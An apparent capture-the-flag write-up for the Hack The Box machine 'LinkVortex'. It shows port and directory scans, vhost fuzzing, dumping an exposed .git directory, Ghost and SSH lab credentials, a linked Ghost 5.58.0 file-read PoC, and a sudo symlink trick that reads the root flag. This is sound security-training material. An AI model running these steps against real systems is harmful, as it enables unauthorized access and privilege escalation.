

# Link Vortex

# Enumeration

## Nmap Scan

```bash
rustscan -a 10.10.11.47 -- -A -oN
```

```bash
PORT   STATE SERVICE REASON         VERSION

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMHm4UQPajtDjitK8Adg02NRYua67JghmS5m3E+yMq2gwZZJQ/3sIDezw2DVl9trh0gUedrzkqAAG1IMi17G/HA=
|   256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKKLjX3ghPjmmBL2iV1RCQV9QELEU+NF06nbXTqqj4dz

80/tcp open  http    syn-ack ttl 63 Apache httpd
|_http-title: Did not follow redirect to http://linkvortex.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache

```

## SSH(22)

- Password Authentication is enabled

```bash
└─$ ssh root@linkvortex.htb 
The authenticity of host 'linkvortex.htb (10.10.11.47)' can't be established.
ED25519 key fingerprint is SHA256:vrkQDvTUj3pAJVT+1luldO6EvxgySHoV6DPCcat0WkI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'linkvortex.htb' (ED25519) to the list of known hosts.
root@linkvortex.htb's password: 

```

## HTTP(80)

### Dirsearch

```bash
dirsearch -u http://linkvortex.htb -x 404
```

```bash
[23:26:29] 301 -  179B  - /assets  ->  /assets/                             
[23:26:30] 301 -    0B  - /axis//happyaxis.jsp  ->  /axis/happyaxis.jsp/    
[23:26:30] 301 -    0B  - /axis2-web//HappyAxis.jsp  ->  /axis2-web/HappyAxis.jsp/
[23:26:30] 301 -    0B  - /axis2//axis2-web/HappyAxis.jsp  ->  /axis2/axis2-web/HappyAxis.jsp/
[23:26:34] 301 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js  ->  /Citrix/AccessPlatform/auth/clientscripts/cookies.js/
[23:26:41] 301 -    0B  - /engine/classes/swfupload//swfupload.swf  ->  /engine/classes/swfupload/swfupload.swf/
[23:26:41] 301 -    0B  - /engine/classes/swfupload//swfupload_f9.swf  ->  /engine/classes/swfupload/swfupload_f9.swf/
[23:26:42] 301 -    0B  - /extjs/resources//charts.swf  ->  /extjs/resources/charts.swf/
[23:26:42] 200 -   15KB - /favicon.ico                                      
[23:26:45] 301 -    0B  - /html/js/misc/swfupload//swfupload.swf  ->  /html/js/misc/swfupload/swfupload.swf/
[23:26:49] 200 -    1KB - /LICENSE                                          
[23:27:02] 200 -  103B  - /robots.txt                                       
[23:27:03] 403 -  199B  - /server-status                                    
[23:27:03] 403 -  199B  - /server-status/                                   
[23:27:04] 200 -  259B  - /sitemap.xml 
```

### Vhost Fuzzing

There is only one subdomain.

```bash
ffuf -u http://linkvortex.htb -H "Host: FUZZ.linkvortex.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -c -fs 230
```

```bash
dev                     [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 27ms]
```

### Dirsearch on dev.linkvortex.htb

```bash
dirsearch -u http://dev.linkvortex.htb -x 404
```

```bash
[23:32:59] 301 -  239B  - /.git  ->  http://dev.linkvortex.htb/.git/        
[23:32:59] 200 -  201B  - /.git/config                                      
[23:32:59] 200 -  402B  - /.git/info/                                       
[23:32:59] 200 -  240B  - /.git/info/exclude
[23:33:00] 200 -  557B  - /.git/                                            
[23:33:00] 200 -  401B  - /.git/logs/                                       
[23:33:00] 200 -  175B  - /.git/logs/HEAD
[23:33:00] 200 -   73B  - /.git/description                                 
[23:33:00] 200 -  620B  - /.git/hooks/                                      
[23:33:01] 200 -  418B  - /.git/objects/                                    
[23:33:01] 200 -   41B  - /.git/HEAD                                        
[23:33:01] 200 -  393B  - /.git/refs/                                       
[23:33:01] 200 -  147B  - /.git/packed-refs                                 
[23:33:01] 301 -  249B  - /.git/refs/tags  ->  http://dev.linkvortex.htb/.git/refs/tags/
[23:33:46] 200 -  691KB - /.git/index

```

### Website Features

- We download the git files.

```bash

wget --mirror -I .git http://dev.linkvortex.htb/.git/
git status
git restore .
git show <commit-id>
git diff <commit-id> "celui du head"
```

- Ghost Credentials

```bash
EMAIL : admin@linkvortex.htb
PASSWORD : OctopiFociPilfer45
```



### Arbitrary File Read on Ghost 5.58.0

- POC https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028


- We read the content of this file

```bash
/var/www/ghost/config.production.json
```


# Post Exploitation

## Shell as Bob

- Bob’s Credentials

```bash
USERNAME : bob
PASSWORD : fibber-talented-worth
```


## Shell as root

- Sudo permissions

```bash
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

- Privilege Escalation

```bash
ln -s /root/root.txt /home/bob/test.txt
ln -s /home/bob/test.txt /home/bob/test.png
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/test.png
```

